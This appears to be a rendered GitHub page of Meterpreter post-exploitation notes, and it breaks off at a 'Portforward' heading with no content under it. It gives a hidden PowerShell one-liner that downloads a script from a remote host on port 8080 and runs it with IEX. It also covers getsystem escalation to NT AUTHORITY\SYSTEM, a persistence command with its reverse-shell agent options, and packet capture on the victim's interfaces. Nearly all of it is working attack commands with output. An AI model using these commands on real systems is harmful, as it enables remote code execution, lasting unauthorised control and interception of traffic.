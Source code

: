 Powershell Run

```shell script {.wrap}
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/0x010101');
```


### Get System

Get System testing

```powershell {.wrap}
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Persistence Startup

```shell script
meterpreter> run persistence -U -p 4242
```

OPTIONS:

```shell script {.wrap}
-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back
```


### Network Monitoring 

interfaces Mode

```shell script {.wrap}
# list interfaces
meterpreter> run packetrecorder -li

# record interface n°1
meterpreter> run packetrecorder -i 1
```

### Portforward
